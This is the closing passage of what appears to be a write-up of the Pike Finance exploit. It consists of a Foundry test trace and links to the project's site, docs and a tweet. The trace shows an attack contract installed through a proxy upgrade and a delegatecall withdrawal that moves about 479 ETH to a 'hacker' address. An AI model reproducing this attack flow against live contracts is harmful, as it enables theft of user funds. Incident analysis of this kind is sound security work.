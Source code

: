```bash
    │   │   │   │   └─ ← [Return] 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc
    │   │   │   ├─ emit Upgraded(param0: AttackContract: [0xa5E4A93e61fF98e988ad9dae6169fc6944CC70E4])
    │   │   │   ├─ [7185] AttackContract::withdraw(hacker: [0x7E5F4552091A69125d5DfCb7b8C2659029395Bdf]) [delegatecall]
    │   │   │   │   ├─ [0] hacker::fallback{value: 479393838338750964434}()
    │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   └─ ← [Stop] 
    │   │   │   └─ ← [Stop] 
    │   │   └─ ← [Return] 
    │   └─ ← [Stop] 
    ├─ [0] console::log("After Hacker balance: ", 479393838338750964434 [4.793e20]) [staticcall]
    │   └─ ← [Stop] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    └─ ← [Stop] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 424.12ms (1.11ms CPU time)

Ran 1 test suite in 969.87ms (424.12ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## 05. Reference

- https://www.pike.finance/
- https://docs.pike.finance/
- https://twitter.com/PikeFinance/status/1785572875124330644
